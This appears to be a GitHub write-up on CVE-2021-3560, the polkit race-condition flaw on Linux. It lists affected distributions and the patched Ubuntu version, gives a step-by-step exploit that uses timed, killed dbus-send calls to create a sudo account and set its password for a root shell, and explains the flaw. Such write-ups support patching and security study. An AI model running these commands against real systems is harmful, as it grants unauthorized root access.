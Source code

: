 
CVE-2021-3560 has emerged as a significant concern for Linux-based systems. This security flaw (via Race Condition), also known as the "Polkit" vulnerability, allows local attackers to gain root privileges, potentially leading to complete compromise of the affected system. In this article, we will delve into the details of CVE-2021-3560, its impact, and recommended measures to mitigate the risk, the exploit is fully explained here: https://kaarb0.medium.com/exploitation-of-cve-2021-3560-cecfdf250397.

# Useful Information:

Specifically, the following mainstream distributions, amongst others, were vulnerable:

- Red Hat Enterprise Linux 8
- Fedora 21 (or later)
- Debian Testing ("Bullseye")
- Ubuntu 20.04 LTS ("Focal Fossa")

Canonical released a patch for their version of polkit (`policykit-1`), which has version number `0.105-26ubuntu1.1`. The last vulnerable version available in the apt repositories for Focal Fossa is `0.105-26ubuntu1`.

We can use `apt list --installed | grep policykit-1` to check the installed version of polkit.
# Exploitation

First, we need to determine how long our command will take to run. Let's try this with the first dbus message, so we know when to kill the command (try to kill the command approximately halfway through execution):

```bash
time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1
```

Suppose it took 10 or 11 ms so we need to kill it after 0.005s (we might try this several times to work), we send the following dbus message to add a new account named "Attacker" with sudo permissions, with a description of "Pentester Account" and membership of the sudo group set to true (referenced by the `int32:1` flag):

```bash
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!
```

Now, Using openssl, we generate a password of type 6 (SHA512-crypt) and our plaintext password (`test123`).

```bash
openssl passwd -6 test123
```

Then, we send another dbus message to set the password by changing the hash below for the new account with a hint "Ask the pentester", note that we must check the id number of the user we added using `id <username>`, suppose it is `1000` then we add 1000 like below: 

```bash
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'$6$t4zNXiNz7BtiSp9a$PcyHUTHMhjLn5T8mp5HqqfrUTthjLRR3hHht8yU9BOEwXWen7Yhf0uV4RdGTwghnqXWSANvX2gj.74GSDUmGn0' string:'Ask the pentester' & sleep 0.005s; kill $!
```

Finally, run this command to get a root shell `sudo -s`.

# How is Polkit Vulnerable ?

By manually sending dbus messages to the dbus-daemon (effectively an API to allow different processes the ability to communicate with each  
other), then killing the request before it has been fully processed, we can trick polkit into authorising the command. If you are not familiar with daemons, they are effectively background services running on Linux. The dbus-daemon is a program running in the background which brokers messages between applications.

The attacker manually sends a dbus message to the accounts-daemon requesting the creation of a new account with sudo permissions (or latterly, a password to be set for the new user). This message gets given a unique ID by the dbus-daemon.  
The attacker kills the message after polkit receives it, but before polkit has a chance to process the message. This effectively destroys the unique message ID. Polkit asks the dbus-daemon for the user ID of the user who sent the message, referencing the (now deleted) message ID.  
The dbus-daemon can’t find the message ID because we killed it in step two. It handles the error by responding with an error code.  
Polkit mishandles the error and substitutes in 0 for the user ID — i.e. the root account of the machine.  
Thinking that the root user requested the action, polkit allows the request to go through unchallenged.  
In short, by destroying the message ID before the dbus-daemon has a chance to give polkit the correct ID, we exploit the poor error-handling in polkit to trick the utility  
into thinking that the request was made by the all-powerful root user.
